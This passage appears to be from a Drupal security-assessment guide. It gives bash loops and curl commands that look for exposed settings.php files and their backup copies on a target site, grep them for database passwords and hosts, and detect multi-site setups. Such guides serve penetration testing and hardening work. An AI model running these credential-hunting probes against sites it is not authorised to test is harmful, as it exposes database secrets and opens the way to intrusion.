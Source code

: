 
## Configuration & Security Analysis

### Settings.php Analysis

#### Database Configuration Discovery
```bash
# Attempt to access settings.php (usually protected)
curl -s http://target.com/sites/default/settings.php

# Common settings.php locations
settings_paths=(
    "/sites/default/settings.php"
    "/sites/all/settings.php"
    "/sites/example.com/settings.php"
)

# Look for backup/development files
backup_configs=(
    "/sites/default/settings.php.bak"
    "/sites/default/settings.php.old" 
    "/sites/default/settings.php~"
    "/sites/default/settings.local.php"
    "/sites/default/development.settings.php"
)

for config in "${backup_configs[@]}"; do
    response=$(curl -s -o /dev/null -w "%{http_code}" "http://target.com$config")
    if [ "$response" = "200" ]; then
        echo "[!] Accessible config found: $config"
        curl -s "http://target.com$config" | grep -E "(database|password|host)"
    fi
done
```

#### Multi-site Configuration Detection
```bash
# Check for multi-site setup
curl -s http://target.com/sites/ | grep -oP 'href="[^"]*"' | grep -v '\.\.'

# Common multi-site indicators
curl -I http://target.com/sites/sites.php
curl -I http://target.com/sites/example.sites.php

# Domain-specific configurations
curl -I http://target.com/sites/example.com/
curl -I http://target.com/sites/www.example.com/
```

### Update Status & Security Headers

